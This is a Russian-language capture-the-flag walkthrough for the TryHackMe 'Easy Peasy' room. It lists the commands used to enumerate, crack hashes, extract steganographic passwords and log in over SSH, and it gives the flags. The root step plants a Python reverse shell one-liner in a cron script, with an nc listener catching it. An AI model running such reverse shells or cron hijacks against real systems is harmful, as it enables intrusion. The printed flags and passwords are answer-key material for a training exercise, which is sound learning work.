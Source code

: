 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Easy Peasy](https://tryhackme.com/r/room/easypeasyctf) 

Всего 2 задания:
## Задание 1
Разверните машину, подключенную к этой задаче, и используйте nmap для ее перечисления.

MACHINE_IP

### Ответьте на вопросы ниже
Сколько портов открыто?
```commandline
nmap -sV -sC -A -p- <IP>
```
```commandline
3
```
Какая версия nginx?
```commandline
1.16.1
```
Что работает на самом высоком порту?
```commandline
Apache
```

## Задание 2
Теперь вы перечислили машину, ответили на вопросы и взломали ее!

### Ответьте на вопросы ниже
Используя GoBuster, найдите флаг 1.
```commandline
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://<IP>/hidden -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
проверим исходный код http://<IP>/hidden/whatever/
```commandline
curl -s http://<IP>/hidden/whatever/
echo -n "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d
```
```commandline
flag{f1rs7_fl4g}
```
Далее перечислим машину, что такое флаг 2?
```commandline
http://<IP>:65524/robots.txt
curl -s http://<IP>:65524/robots.txt
```
Здесь мы получаем хеш md5, его взлом
```commandline
flag{1m_s3c0nd_fl4g}
```
Взломайте хеш с помощью easypeasy.txt. Что такое флаг 3?
```commandline
curl -s http://<IP>:65524/ | grep flag
```
```commandline
flag{9fdafbd64c47471a8f54cd3fc64cd312}
```
Что такое скрытый каталог?
```commandline
curl -s http://<IP>:65524/ | grep hidden
```
Хеш — Base62, при декодировании получаем каталог
```commandline
/n0th1ng3ls3m4tt3r
```
Используя список слов, предоставленный вам в этом задании, взломайте хэш.
```commandline
curl -s http://<IP>:65524/n0th1ng3ls3m4tt3r/
echo "940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81" > hash.txt
john --wordlist=easypeasy.txt --format=GOST hash.txt
```
Какой пароль?
```commandline
mypasswordforthatjob
```
Какой пароль для входа на машину через SSH?
```commandline
wget http://<IP>:65524/n0th1ng3ls3m4tt3r/binarycodepixabay.jpg
steghide extract -sf binarycodepixabay.jpg 
# mypasswordforthatjob
cat secrettext.txt
```
```commandline
iconvertedmypasswordtobinary
```
Что такое флаг пользователя?
```commandline
ssh boring@<IP> -p 6498
ls -la
cat user.txt 
```
```commandline
flag{n0wits33msn0rm4l}
```

Что такое корневой флаг?
```commandline
sudo -l
cat /etc/crontab
ls -l /var/www/.mysecretcronjob.sh
cat /var/www/.mysecretcronjob.sh 
nano .mysecretcronjob.sh

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

rlwrap nc -nlvp 4444
whoami
cd /root
ll
cat .root.txt
```
```commandline
flag{63a9f0ea7bb98050796b649e85481845}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)